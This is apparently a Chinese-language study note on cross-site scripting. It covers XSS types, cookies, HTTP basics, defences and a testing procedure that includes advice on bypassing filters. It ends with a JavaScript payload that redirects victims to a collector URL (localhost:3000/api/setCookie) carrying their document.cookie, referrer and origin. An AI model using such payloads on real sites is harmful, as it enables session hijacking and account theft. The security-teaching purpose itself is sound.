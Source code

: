 # XSS 跨站脚本 Cross Site Script

## 危害

1. 冒充身份
2. 刷点击
3. 弹广告
4. 传播蠕虫病毒

## 防止

（规则引擎， WAF 规则库） 防火墙

- 输入 （正则表达 匹配）

  - 1. 定义恶意脚本，格式
  - 2. 对脚本的各种变形也要识别

- 输出
  - 转意处理

## 介绍

webd 页面在展示数据时用户输入的内容，但是未做过滤和输出转译，导致黑客可通过参数传递恶意代码，当用户浏览页面时恶意代码就会执行。

## 跨站脚本攻击的三种方式

### 反射型跨站脚本攻击

（非持久性的）
攻击者会通过特别的手段，引诱你点击 URL 链接用户打开，在用户打开的页面的时候，浏览器会执行页面中嵌入的恶意脚本

自动攻击（留言部分）

- 提交代码到数据库中
- 查询数据库

### 存储型跨站脚本攻击

攻击者利用 web 应用提供的输入或则修改数据的功能，将数据存到服务器中或则用户的 cookie 中，当其他用户浏览该展示的数据时的页面，浏览器会之星页面中嵌入的恶意脚本，所有的浏览者都会受到攻击。

### DOM 型跨站脚本攻击

由于 html 页面，定义了一段 js, 根据用户信息的输入，显示一段 html 代码，攻击者可以在输入时，插入一段恶意脚本，最终在展示时，会执行恶意脚本。

dom 跨站和以上两个跨站的差别是，DOM 跨站是纯纯页面脚本的输出，只有规范使用 javascript，才可以防御。

### 存储型 XSS 攻击是如何实现的？

cookie （内存）

- 明文
- 可修改
- 大小限制

cookie 用途

- 记住登录状态
- 跟踪用户行为

session 保存在哪里？（服务端：临时文件）

**如何远程获取 cookie**

- 获取 cookie document.cookie
- 设置读取 cookie document.cookie=""
- 修改 （按名字覆盖）
- 删除 设置过期时间

http 基础
请求相关

- 请求方法
- 请求 URL
- http 协议版本
- 报文头
- 报文体

响应

- 报文协议及版本
- 状态码及状态描述
- 相应头
- 响应体

http 特点

- 请求应答模式 (2.0 存在 push 模式)
- 灵活可扩展
- 可靠传输
- 无状态

## 测试流程

- 在目标站点找到输入点，比如查询接口，留言板
- 输入一组 “特殊字符 + 唯一字符”， 点击提交后，查看返回的的源码，是否有做对应的处理
- 通过搜索定位到唯一的字符，结合唯一字符前后语法是否可以构造可执行的 JS 的条件（构造闭合条件）
- 提交构造的脚本代码（以及各种绕过姿势）看是否可以成功执行，如果执行则说明存在 xss 漏洞

tips:

- 一般查询接口容易出现反射型 XSS，留言板容易出现存储型 XSS；
- 由于后台可能存在过滤措施，构成的 script 可能被过滤掉，而无法生效或则环境限制了执行（浏览器）
- 通过变化不同 script，尝试绕过后台的过滤机制。

以下标签不受同源策略限制

- <script src="" >
- <img src="" >
- <link href="" >
- <iframe src="" >

## payload

```js
<script>
window.location = 'http://localhost:3000/api/setCookie/?cookie=' + document.cookie;
<script>
const origin = window.location.origin;
const refer = document.referrer;
window.location = 'http://localhost:3000/api/setCookie/?cookie=' + document.cookie+ '&refer='+refer+'&origin='+origin;
</script>
```
